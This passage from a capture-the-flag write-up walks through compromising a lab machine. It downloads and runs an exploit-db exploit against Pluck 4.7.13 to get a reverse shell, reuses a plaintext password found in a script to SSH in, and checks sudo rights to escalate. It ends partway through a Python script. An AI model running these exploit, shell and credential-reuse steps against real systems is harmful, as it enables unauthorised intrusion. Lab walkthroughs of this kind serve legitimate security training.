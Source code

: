 We can download the exploit and run it with the following command:

```python
wget https://www.exploit-db.com/download/49909 -O exploit.py
python3 ./exploit.py MACHINE_IP 80 password /app/pluck-4.7.13
```

Then, if you go to the page given in the output we will find a reverse shell.

<Image src={require("./08-exploit.webp").default} />

Looking inside the file system, we find two interesting files in the /opt path. One is called test.py and the other is called getDreams.py.

While the latter is a script for a database used by the user death with the password redacted, the former is a script used to log in to Pluck with Lucien's password "HeyLucien#@1999!"

<Image src={require("./09-reverse-shell.webp").default} />

We can assume that it is the same password for his account and try it with ssh.

```bash
ssh lucien@MACHINE_IP
```

It works and we are finally inside the system as Lucien and we can read the first flag.

<Image src={require("./10-lucien-flag.webp").default} />

### What is the Death Flag?

A possible solution for privilige escalation can be seen by checking the permissions of the user Lucien:

```bash
sudo -l
```

<Image src={require("./11-sudo-l.webp").default} />

We can see that Lucien can run the script getDreams.py as the user death without a password.

For the previous script, this is stored inside the home folder of Death and it is only executable, not readable.

If we try to run it we will see the output without any credentials error. We can suppose that in this version the password has not been redacted.

```bash
sudo -u death /opt/scripts/getDreams.py
```

The code can be obtained from the folder "/opt":

```py
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
```